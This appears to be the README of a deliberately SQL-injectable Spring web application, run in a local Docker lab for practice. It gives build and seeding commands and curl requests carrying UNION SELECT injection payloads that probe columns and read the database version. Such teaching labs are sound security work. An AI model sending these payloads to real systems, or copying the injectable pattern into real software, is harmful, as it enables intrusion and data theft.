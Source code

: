 # SQLi vulnerable Spring Application

# TL;DR

To build and run:
```
sudo docker build -t sqli_victim_webapp_java_spring .; sudo docker run --name victim.sqli.webapp_java_spring.tld -ti -p 127.0.0.1:5808:8080 sqli_victim_webapp_java_spring
```

To fill the database:

```
curl 'localhost:5808/sqlidemo/all'
curl localhost:5808/sqlidemo/add -d username=user -d password=password
```

To get access to the database:
```
sudo docker exec -ti victim.sqli.webapp_java_spring.tld mysql --host localhost -uuser -ppassword sqli_example
```

# SQLi

Check for union select:

```
curl localhost:5808/sqlidemo/vulnbyid -d id="1' UNION SELECT NULL,NULL,NULL -- "
curl localhost:5808/sqlidemo/vulnbyid -d id="1' UNION SELECT NULL,NULL,'A'"
````

Enumerate database:

```
curl localhost:5808/sqlidemo/vulnbyid -d id="1' UNION SELECT NULL,NULL,(SELECT @@VERSION) -- "
curl -X GET localhost:5808/sqlidemo/vulnbyid\?id="1'+UNION+SELECT+NULL,NULL,(SELECT+@@VERSION)+--+"
```
